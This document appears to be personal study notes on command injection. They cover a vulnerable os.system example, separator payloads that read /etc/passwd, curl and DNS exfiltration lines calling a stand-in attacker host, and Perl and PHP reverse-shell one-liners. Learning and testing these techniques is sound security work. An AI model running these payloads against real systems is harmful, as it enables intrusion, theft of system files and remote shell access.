 # what is command injection?
- in command injection , a web application generates Bash commands, including data from a Clint, a malicious user data custom that modify the normal operation of the web application . in a short rod, unsafe user-supplied data to a system shell , The severity is commonly consider as critical issue.
- The Flow something like this
	- ![[p1.png]]
	- #### But why do web application need to interact with shell? there are many scenarios
		- Converting an image
		- Converting an videos
	    - Code example, the video_name comes from user input
        - ```os.system("/bin/ffmpeg -i {} -c:a copy -c:v vp9 -r 30 "/files/user/{}/videos".format(video_name, session.get('user_id')))```
		- Converting an external web service
		- calling a binary
# Detection phase
- the detection phase is about fuzz the suspicious input, there are some command separators, a useful can be found here
```shell
; cat /etc/passwd  
&& cat /etc/passwd  
| cat /etc/passwd  
|| cat /etc/passwd  
`cat /etc/passwd`  
$(cat /etc/passwd)  
(cat,/etc/passwd)  
cat$IFS/etc/passwd  
cat $(HOME:0:1)etc$(HOME:0:1)passwd
```
# out of band Technique
- Out-of-band technique in command injection involves the attacker's ability to **send** data outside the application's normal communication channels. This can be done through **DNS requests, HTTP requests, or other means**. The attacker can then use this channel to receive data from the exploited system, such as the output of a command executed through the command injection vulnerability. This technique can be useful when the application does not return the output of the injected command, or when the output is not easily accessible by the attacker.
# two real world example
- #### Hacked apple
	- ##### [in write up](https://samcurry.net/hacking-apple#vuln4)
# Data Exfiltration
- ## There are two types of Command Injection:
	- Normal
	- ##### Blind
		- In the normal mode, the data can be grabbed easily. However, in the blind mode, Out of Band technique should be used:
			- ##### HTTP data exfiltration
				- `curl https://attacker.tld -d "$(id)" # sending out the result of a command    
				- `curl https://attacker.tld --data-binary @/etc/passwd # sending out a file `
			- ##### DNS data Exfiltration
				- `dig a +short $(whoami).icollab.info`
				- `# in the server -> 29-May-2022 10:57:43.096 queries: info: client @0x7f47e8099f00 74.125.181.8#36381 (yasho.icollab.info): query: yash o.icollab.info IN A -E(0)DC (54.37.175.117) [ECS 91.134.231.0/24/0]`
# Reverse Shell
    
- HTTP is a stateless protocol, in the Command Injection, attackers execute commands on a non-interactive shell.
    - An interactive shell can be achieved through 2 ways:
        - Spawning a shell and binding it on a port in the target machine, connecting to it directly (nowadays is impossible, why?)
        - Using a reverse shell forcing the target machine to connect back to the attacking machine
    - Procedure:
	    - Attacker's machine listens on a port
		- Victim's machine connects to the port
		- Victim spawns a shell
		- Attacker will have the shell
    - Perl code:
        - perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
    - PHP code:
        - php -r '$sock=fsockopen("IP",PORT);exec("sh <&3 >&3 2>&3");'
# Tool
- like [[sqlmap]]



### Command injection Partial
we in this type Ci can't be using operators(& | ; ..)
should be using (command future)
example when background command is `curl` should use 
```shell
SINPUT --data-binary @/etc/passwd
file:///etc/passwd
file\:/etc/passwd
{file}:/etc/passwd
```

